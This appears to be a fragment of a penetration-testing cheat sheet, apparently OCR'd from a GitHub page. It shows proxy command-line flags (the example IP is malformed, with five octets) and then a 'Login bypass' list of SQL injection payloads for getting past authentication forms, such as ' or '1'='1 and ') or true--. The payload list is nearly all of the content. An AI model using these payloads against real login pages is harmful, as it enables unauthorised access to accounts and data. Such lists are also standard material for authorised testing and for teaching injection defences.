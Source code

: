 ### Use proxy

```
--proxy="http://192.2.2.2.2:1111"
```

**Proxy credencials**

```
--proxy-cred="username:password"
```

## Login bypass

This is the most classic, standard first test:

```
' or '1'='1
```

Then you have:

```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```
